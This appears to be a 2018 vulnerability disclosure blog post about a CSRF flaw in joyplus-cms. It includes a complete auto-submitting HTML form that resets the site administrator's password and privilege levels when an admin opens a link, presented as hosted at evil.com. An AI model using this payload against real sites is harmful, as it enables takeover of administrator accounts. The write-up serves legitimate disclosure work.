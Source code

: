 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      The new exploit in joyplus-cms              # 标题 
subtitle:   #副标题
date:       2018-10-09              # 时间
author:     oldT                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 漏洞
---
```


# origin

The yesterday , i use the joyplus-cms Building a website for company. Finding a 
Vulnerability in the cms. The cms is not csrf  verification. The hacker can modify the password of admin,when the admin click the link of the hacker.

# First

we login in the number of admin.

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%871.png)

# secondly

And click the link of the exploit . http://www.evil.com/exploit.html

The password was modified!

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%872.png)

# Vulnerability

The Vulnerability in the interface . looking the follow picture.

http://www.example.com/joyplus-cms/manager/admin_ajax.php?action=save&tab={pre}manager

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%873.png)

# exploit

The exploit.html is next code

<form action=http://www.example.com/manager/admin_ajax.php?action=save&tab={pre}manager method=POST>
<input type="text" name="m_id" value="1" />
<input type="text" name="flag" value="edit" />
<input type="text" name="m_name" value="admin" />
<input type="text" name="m_password" value="222222" />	// the password
<input type="text" name="m_levels%5B%5D" value="2" />
<input type="text" name="m_levels%5B%5D" value="4" />
<input type="text" name="m_levels%5B%5D" value="6" />
<input type="text" name="m_levels%5B%5D" value="8" />
<input type="text" name="m_levels%5B%5D" value="9" />
<input type="text" name="m_levels%5B%5D" value="10" />
<input type="text" name="m_levels%5B%5D" value="7" />
<input type="text" name="m_status" value="1" />
</form>
<script> document.forms[0].submit(); </script> 
